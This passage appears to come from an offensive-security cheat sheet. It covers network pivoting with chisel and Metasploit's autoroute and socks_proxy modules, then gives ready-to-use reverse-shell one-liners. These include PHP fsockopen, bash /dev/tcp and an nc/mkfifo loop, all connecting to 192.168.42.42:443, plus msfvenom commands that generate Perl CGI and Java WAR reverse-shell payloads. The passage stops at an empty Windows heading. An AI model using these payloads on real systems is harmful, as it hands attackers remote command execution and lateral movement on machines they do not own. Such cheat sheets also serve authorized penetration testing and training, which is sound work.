 ```console
./chisel client 192.168.90.90:9050 R:127.0.0.1:5050:172.16.42.90:8081
```

### Metasploit: autoroute + socks_proxy

```background
use post/multi/manage/autoroute
set session 8
run
use auxiliary/server/socks_proxy
run -j
```

The SRVPORT of socks_proxy must match the one configured in proxychains.conf as the VERSION used as well.


## Reverse shells

### php

```php
<?php $sock = fsockopen("192.168.42.42","443"); $proc = proc_open("/bin/sh -i", array(0=>$sock, 1=>$sock, 2=>$sock), $pipes); ?>
```

```php
php -r '$sock=fsockopen("192.168.42.42",443);exec("/bin/sh -i <&3 >&3 2>&3");'
```

### bash

```bash
bash -i >& /dev/tcp/192.168.42.42/443 0>&1
```

### sh + nc

```sh
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f | /bin/sh -i 2>&1 | nc 192.168.42.42 443 >/tmp/f
```

### Perl (example deploy as cgi-bin)

```console
msfvenom -p cmd/unix/reverse_perl LHOST="192.168.42.42" LPORT=443 -f raw -o reverse_shell.cgi
```

### Java (example to deploy on tomcat)

```console
msfvenom -p java/shell_reverse_tcp LHOST=192.168.42.42 LPORT=443 -f war  rev_shell.war
```

### Windows HTTP download reverse shell

